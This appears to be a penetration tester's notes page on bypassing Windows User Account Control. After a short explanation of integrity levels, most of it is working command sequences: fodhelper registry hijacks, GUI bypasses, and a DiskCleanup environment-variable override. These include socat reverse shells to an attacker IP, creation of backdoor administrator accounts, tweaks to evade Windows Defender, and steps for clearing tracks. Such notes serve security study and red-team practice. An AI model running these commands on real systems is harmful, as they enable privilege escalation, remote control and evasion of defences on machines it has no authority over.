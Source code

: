 # UAC Bypass

## UAC / Integrity Level Bypass

From Windows Vista onward, processes run on four integrity levels:

<table data-full-width="true"><thead><tr><th width="287">Integrity Level</th><th>Use</th></tr></thead><tbody><tr><td>Low</td><td>Generally used for interaction with the Internet (i.e. Internet Explorer), sandboxed processes or for directories storing temporary data. Has very limited permissions.</td></tr><tr><td>Medium</td><td>Assigned to standard users and Administrators' filtered tokens.</td></tr><tr><td>High</td><td>Used by Administrators' elevated tokens if UAC is enabled. If UAC is disabled, all administrators will always use a high IL token.</td></tr><tr><td>System</td><td>Reserved for system use/rights (kernel, ...).</td></tr></tbody></table>

{% hint style="warning" %}
{% code overflow="wrap" %}
```
Only possible when the mandatory level is medium and when your account belongs to the local Administrators group. (If you're not an admin, UAC bypass won't help.)
```
{% endcode %}
{% endhint %}

<pre class="language-powershell" data-overflow="wrap" data-full-width="true"><code class="lang-powershell">https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works
https://github.com/hfiref0x/UACME
https://woshub.com/decoding-ad-useraccountcontrol-value/

https://devblogs.microsoft.com/oldnewthing/20160816-00/?p=94105
<strong>https://www.ired.team/offensive-security/persistence/t1122-com-hijacking
</strong>https://github.com/winscripting/UAC-bypass/blob/master/FodhelperBypass.ps1
https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-FodHelperBypass.ps1
#UAC "Always Notify" Bypass W10
https://enigma0x3.net/2016/07/22/bypassing-uac-on-windows-10-using-disk-cleanup/
#UAC "Always Notify" Bypass W8.1
https://bugs.chromium.org/p/project-zero/issues/detail?id=156&#x26;can=1&#x26;q=uac
# EventViewer-UACBypass
https://github.com/CsEnox/EventViewer-UACBypass

https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper/
https://github.com/blue0x1/uac-bypass-oneliners


# ATTENTION, FOR THIS BYPASS TO WORK WE NEED TO EXECUTE IT ON A PS SHELL BUT NOT GUI (RDP)
whoami /groups
# If we see Medium Mandatory Level, we have medium integrity so we are limited even with admin rights. 
# To achieve High Integrity Level
powershell.exe Start-Process cmd.exe -Verb runAs
# fodhelper.exe UAC Bypass (using sigcheck.exe from SysInternal Suite)
sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe -accepteula
# If we see requireAdministrator and autoElevate = true, good to go (maybe it does not work if it is set to Always Notify)
# Now with Process Monitor we filter:
Process Name is fodhelper.exe
Operation contains Reg
Result is NAME NOT FOUND
Path contains HKCU
# If wee see errors there, check what is the interaction and how we can alter the Registry to execute our payload
# Add a key
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
# Specify value and type of a key
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
# This is a process we could use to discover more of this UAC bypasses
# To trigger the bypass
Start-Process "C:\Windows\System32\fodhelper.exe -WindowStyle Hidden"
# Some commands can be detected by AV so better to change Administrator password or add a new admin
FodhelperBypass -program "cmd.exe /c net user Administrator Password123!"
FodhelperBypass -program "cmd.exe /c net user newuser Password123! /add"
# Add three groups to log in via WinRM / RDP and be Administrator
FodhelperBypass -program "cmd.exe /c net localgroup Administrators newuser /add"
FodhelperBypass -program "cmd.exe /c net localgroup ""Remote Desktop Users"" newuser /add &#x26;&#x26; net localgroup ""Remote Management Users"" newuser /add"
FodhelperBypass -program "cmd.exe /c net localgroup ""Remote Desktop Users"" Administrator /add &#x26;&#x26; net localgroup ""Remote Management Users"" Administrator /add"
</code></pre>

## Filtered Token&#x20;

Differences between opening app normal way or Run as administrator. Normal way effectively denies any privileges related to being part of the Administrators group

```powershell
whoami /groups # you find Medium Integrity Level
```

## GUI bypasses

{% code overflow="wrap" fullWidth="true" %}
```powershell
# msconfig
Run msconfig
With Process Hacker, notice it runs with High Integrity w/o any prompt
msconfig > Tools tab > Command Prompt > launch cmd.exe, it will run with High Integrity

# azman.msc
Run > azman.msc
On the app > Help > Help Topics
On the help screen, we will right-click any part of the help article and select View Source
Notepad process > go to File->Open > Extension -> Select All Files > search for c:\windows\system32\cmd.exe > right-click on it > Open
```
{% endcode %}

## Auto-Elevating Processes

{% code overflow="wrap" fullWidth="true" %}
```powershell
# AutoElevate
https://docs.microsoft.com/en-us/sysinternals/downloads/sigcheck
For an application, some requirements need to be met to auto-elevate:
    The executable must be signed by the Windows Publisher
    The executable must be contained in a trusted directory, like %SystemRoot%/System32/ or %ProgramFiles%/
Depending on the type of application, additional requirements may apply:
    Executable files (.exe) must declare the autoElevate element inside their manifests -> check with sigcheck
    mmc.exe will auto elevate depending on the .msc snap-in that the user requests. Most of the .msc files included with Windows will auto elevate.
    Windows keeps an additional list of executables that auto elevate even when not requested in the manifest. This list includes pkgmgr.exe and spinstall.exe, for example.
    COM objects can also request auto-elevation by configuring some registry keys (https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker).

# Fodhelper (can be abused w/o GUI access) -> socat is just and example to get a revshell
https://winscripting.blog/2017/05/12/first-entry-welcome-and-uac-bypass/
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"
C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
C:\> reg add %REG_KEY% /d %CMD% /f
C:\> fodhelper.exe
# Clearing our tracks
reg delete HKCU\Software\Classes\ms-settings\ /f
```
{% endcode %}

## Improving the Fodhelper Exploit to Bypass Windows Defender

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Run fodhelper.exe immediately -> unreliable, depending on your luck fodhelper might execute before the AV kicks in or not
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"
C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
C:\> reg add %REG_KEY% /d %CMD% /f & fodhelper.exe

# Improving the fodhelper exploit
https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"
C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
C:\> fodhelper.exe

# Clearing our tracks (from High Integrity shell) -> to avoid detection
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```
{% endcode %}

## Environment Variable Expansion - Bypassing Always Notify

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Windows Defender should be disabled or some difficulties might arise running the exploit
# Task Scheduler > DiskCleanup Scheduled Task -> it has to be executed by an Administrator to work (obviously) 
# checking the Actions tab on the scheduled task, we see a command which depends on environmental variables:
%windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%

# We can override the %windir% variable through the registry by creating an entry in HKCU\Environment
C:\> reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f
# we concatenate "&REM " (ending with a blank space) to comment whatever is put after %windir% env. var. on "Actions" tab and ignore it
C:\> schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
# Result should be a shell with high IL

# Clearing our tracks 
reg delete "HKCU\Environment" /v "windir" /f
```
{% endcode %}

## Automated Exploitation

```powershell
https://github.com/hfiref0x/UACME
C:\tools>UACME-Akagi64.exe 33
# Some methods:
33 	fodhelper.exe
34 	DiskCleanup scheduled task
70 	fodhelper.exe using CurVer registry key
```

[https://www.bleepingcomputer.com/news/security/bypassing-windows-10-uac-with-mock-folders-and-dll-hijacking/](https://www.bleepingcomputer.com/news/security/bypassing-windows-10-uac-with-mock-folders-and-dll-hijacking/)

[https://www.elastic.co/security-labs/exploring-windows-uac-bypasses-techniques-and-detection-strategies](https://www.elastic.co/security-labs/exploring-windows-uac-bypasses-techniques-and-detection-strategies)

[https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-1.html](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-1.html)
